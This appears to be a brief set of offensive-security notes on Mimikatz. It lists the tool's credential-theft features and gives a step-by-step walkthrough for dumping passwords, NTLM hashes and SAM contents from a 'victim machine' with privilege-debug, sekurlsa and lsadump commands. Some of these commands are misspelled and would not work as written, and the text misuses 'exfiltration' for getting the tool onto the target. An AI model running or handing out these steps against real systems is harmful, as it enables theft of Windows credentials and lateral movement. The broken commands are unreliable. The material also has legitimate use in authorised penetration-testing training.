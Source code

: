 # Mimikatz Overview

## Github Link

* [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)[https://github.com/gentilkiwi/mimikatz/wiki/](https://github.com/gentilkiwi/mimikatz/wiki/)

## What is Mimikatz

* tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
* dump credentials stored in memory
* cred dumping, pass-the-hash, over-pass-the-hash, pass-the-ticket, golden ticket, silver ticket, etc

## Credential Dumping with Mimikatz

### Step 1: Get Mimikatz on the Victim Machine

* use any exfiltration method
* advanced techniques may be required

### Step 2: Run Mimikatz and Command to Allow Debugging Restricted Process

```bash
privelege::debug
```

### Step 3: Compromise User Hashes

```bash
sekurlsa::logonpassword
```

* can also get wdigest \(which stores password in clear text\) but we need to turn feature on with tool\)

### Step 4: Try to Dump SAM

```bash
lsadump::sam
lsadump::sam /patch
```

### Step 5: Get User and NTLM Another Way \(Crack Them and Pass the Hash\)

```bash
lsadump::lsa /patch
```

